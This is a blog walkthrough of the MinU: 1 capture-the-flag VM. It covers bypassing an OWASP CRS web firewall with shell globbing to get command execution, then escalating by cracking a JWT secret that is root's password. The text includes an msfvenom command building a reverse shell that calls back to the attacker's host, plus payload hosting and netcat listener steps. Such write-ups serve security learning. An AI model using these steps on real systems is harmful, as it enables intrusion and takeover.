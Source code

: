```yaml
---
layout: post
title: "MinU: 1 Walkthrough"
subtitle: "O, wasp!"
date: 2018-09-11 08:10:53 +0000
category: Walkthrough
tags: [VulnHub, MinU]
comments: true
image:
  feature: minu-1-walkthrough.jpg
  credit: umsiedlungen / Pixabay
  creditlink: https://pixabay.com/en/insect-wasps-hornets-hornissennest-3270233/
---
```


This post documents the complete walkthrough of MinU: 1, a boot2root [VM][1] created by [8bitsec][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

This boot2root is an Ubuntu Based virtual machine and has been tested using VirtualBox. The network interface of the virtual machine will take it's IP settings from DHCP. Your goal is to capture the flag on `/root`.

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.27
|_http-server-header: Apache/2.4.27 (Ubuntu)
|_http-title: 403 Forbidden
```

This should be fun. `nmap` finds one open port: `80/tcp`.

### Directory/File Enumeration

Let's use `wfuzz` to fuzz the site and see what we are up against.

![ad2513b7.png](/assets/images/posts/minu-1-walkthrough/ad2513b7.png)

Something's up. There's way too many `403`s. Probably some Rewrite rules and/or a Web Application Firewall (WAF) are in place.

![cfa688d8.png](/assets/images/posts/minu-1-walkthrough/cfa688d8.png)

Now, this is more like it.

### ModSecurity (OWASP CRS)

Let's use `wafw00f` to determine if there's a WAF in place.

![c7c5625b.png](/assets/images/posts/minu-1-walkthrough/c7c5625b.png)

Damn.

Let's not get too hung up on the WAF. Check out the HTML source code of `/test.php`.

![a4e318e4.png](/assets/images/posts/minu-1-walkthrough/a4e318e4.png)

Looks like there's an intention to delay loading with JavaScript. Let's disable JavaScript.

![0cbd15e7.png](/assets/images/posts/minu-1-walkthrough/0cbd15e7.png)

No js yay! But, are we looking at a Local File Inclusion (LFI) vulnerability here?

![a675067c.png](/assets/images/posts/minu-1-walkthrough/a675067c.png)

![db603633.png](/assets/images/posts/minu-1-walkthrough/db603633.png)

Anyway, long story short. It's not LFI, it's something else—remote command execution. Basically, this is an exercise in bypassing OWASP CRS.

### Remote Command Execution

Don't believe it? Look here.

![825b6ba6.png](/assets/images/posts/minu-1-walkthrough/825b6ba6.png)

What do you see? The `file` parameter accepts a pipe (`|`) character and the `rev` command, resulting in the contents of `last.html` reversed. You know what, it's always better to see it in `curl`.

![2ae77265.png](/assets/images/posts/minu-1-walkthrough/2ae77265.png)

Voila. This is indeed an exercise to bypass OWASP CRS to execute commands.

A tutorial on how ModSecurity and OWASP CRS work is beyond the scope of this walkthrough. Suffice to say, they work based on pattern matching hella of complex looking regular expressions.

Because `bash` enables wildcards (asterisk `*` and question mark `?`) for globbing in the VM, we can leverage that to bypass the OWASP CRS filters.

Here's an example to view `/etc/passwd`.

![bddf976d.png](/assets/images/posts/minu-1-walkthrough/bddf976d.png)

Here's an example to execute the `ls` command.

![4d486a76.png](/assets/images/posts/minu-1-walkthrough/4d486a76.png)

### Low-Privilege Shell

We can now make use of the above to give ourselves a low-privilege shell. We'll pull a reverse shell (generated with `msfvenom`) with `wget`, but first we need to determine whether the OS is 32-bit or 64-bit with `uname`.

![0e944f46.png](/assets/images/posts/minu-1-walkthrough/0e944f46.png)

Generate a reverse shell with `msfvenom`.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rev
```

Host it with Python's SimpleHTTPServer.

```
# python -m SimpleHTTPServer 80
```
Download the reverse shell like so.

![61a81256.png](/assets/images/posts/minu-1-walkthrough/61a81256.png)

Check if the download was successful.

![3e850ebc.png](/assets/images/posts/minu-1-walkthrough/3e850ebc.png)

Now, make `rev` executable with `chmod`.

![86487420.png](/assets/images/posts/minu-1-walkthrough/86487420.png)

![7b89128e.png](/assets/images/posts/minu-1-walkthrough/7b89128e.png)

Time to execute the reverse shell. Before we do that, let's set up our `nc` listener.

![e8ba719c.png](/assets/images/posts/minu-1-walkthrough/e8ba719c.png)

Hooray. A shell at last.

![911cdd4d.png](/assets/images/posts/minu-1-walkthrough/911cdd4d.png)

### Privilege Escalation

During enumeration of `bob`'s account, I noticed the presence of a JSON web token (JWT) in `/home/bob/._pw_`. Here's how it looks like.

![7ae14d04.png](/assets/images/posts/minu-1-walkthrough/7ae14d04.png)

JWT has three parts in this format:

```
base64(header).base64(payload).base64(signature)
```

1. `header` specifies the algorithm and the type in JSON.
2. `payload` specifies the claim of the token, also in JSON.
3. `signature` is the digital signature of the encoded header and payload.

There's a online [debugger](https://jwt.io/#debugger) that we can use to find out the header and payload.

![bb1a57ab.png](/assets/images/posts/minu-1-walkthrough/bb1a57ab.png)

Judging by the file name, I guess we need to crack the JWT to determine the secret used in HS256 to create the signature.

### JWT Cracker

Searching for "jwt crack github" in Google gave plenty of results. I decided on [c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker) based on performance considerations—it's multi-threaded and written in C.

Cracking the JWT with it, is crazy fast compared to the rest.

![0aecce8c.png](/assets/images/posts/minu-1-walkthrough/0aecce8c.png)

### What's the Flag (WTF)

It turns out that the secret is `root`'s password. With that, getting the flag is trivial.

![f5afe660.png](/assets/images/posts/minu-1-walkthrough/f5afe660.png)

:dancer:

### Afterthought

I had a fun time trying out different JWT crackers. :laughing:

[1]: https://www.vulnhub.com/entry/minu-1,235/
[2]: https://twitter.com/@_8bitsec
[3]: https://www.vulnhub.com/

